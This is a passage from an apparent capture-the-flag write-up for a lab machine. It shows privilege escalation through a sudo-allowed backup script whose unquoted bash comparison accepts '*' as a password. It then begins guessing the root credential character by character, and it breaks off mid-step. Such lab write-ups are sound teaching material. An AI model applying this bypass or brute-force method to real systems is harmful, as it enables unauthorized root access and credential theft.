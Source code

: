 ```
3[...]4
```
## Privilege escalation
The user `joshua` can run the script `/opt/scripts/mysql-backup.sh` as `root`:
```
joshua@codify:~$ sudo -l
[sudo] password for joshua: 
Matching Defaults entries for joshua on codify:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User joshua may run the following commands on codify:
    (root) /opt/scripts/mysql-backup.sh
```
This file is read-only:
```
joshua@codify:~$ ls -l /opt/scripts/mysql-backup.sh
-rwxr-xr-x 1 root root 928 Nov  2 12:26 /opt/scripts/mysql-backup.sh
```
This script is password protected:
```
#!/bin/bash
DB_USER="root"
DB_PASS=$(/usr/bin/cat /root/.creds)
BACKUP_DIR="/var/backups/mysql"

read -s -p "Enter MySQL password for $DB_USER: " USER_PASS
/usr/bin/echo

if [[ $DB_PASS == $USER_PASS ]]; then
        /usr/bin/echo "Password confirmed!"
else
        /usr/bin/echo "Password confirmation failed!"
        exit 1
fi
...
```
However, the condition uses pattern matching. Therefore, if `$USER_PASS` is `*`, the "authentication" should pass:
```
joshua@codify:/tmp$ sudo /opt/scripts/mysql-backup.sh
Enter MySQL password for root: *
Password confirmed!
mysql: [Warning] Using a password on the command line interface can be insecure.
Backing up database: mysql
mysqldump: [Warning] Using a password on the command line interface can be insecure.
-- Warning: column statistics not supported by the server.
mysqldump: Got error: 1556: You can't use locks with log tables when using LOCK TABLES
mysqldump: Got error: 1556: You can't use locks with log tables when using LOCK TABLES
Backing up database: sys
mysqldump: [Warning] Using a password on the command line interface can be insecure.
-- Warning: column statistics not supported by the server.
All databases backed up successfully!
Changing the permissions
Done!
```
Better, we can deduce the password character by character. For instance, to check if the first letter of the password is `a`, we can write:
```
joshua@codify:/tmp$ echo "a*" | sudo /opt/scripts/mysql-backup.sh

Password confirmation failed!
```
But, if we try `k`: